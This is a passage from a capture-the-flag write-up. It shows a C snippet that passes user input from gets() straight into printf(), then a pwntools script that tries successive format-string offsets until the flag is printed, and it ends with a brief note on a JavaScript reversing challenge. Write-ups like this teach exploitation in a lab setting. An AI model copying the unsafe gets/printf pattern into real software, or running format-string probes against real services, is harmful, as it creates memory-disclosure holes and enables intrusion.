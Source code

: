 ```
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  printf("Enter some string that can exploit a stupid printf\n");

  gets(buf);
  printf(buf);
}
```

Exploit:

```
from pwn import *
i=0
while(True):
    p = process('./formatPwn')

    # p = remote('3.138.154.93', 1003)
    p.sendline("%%%d$s" % i)
    i += 1
    res = p.recv()
    if 'JCTF{' in res:
     print(res)
     print("Position: " + str(i))
     break
```

## Reverse

### Developer

Idea from Welcome-CTF

this challenge is easy, a js file containing the flag, divided to chunks, manual work is involved to retireve the flag

![BSides-Tirana](./img/reverse/01.png)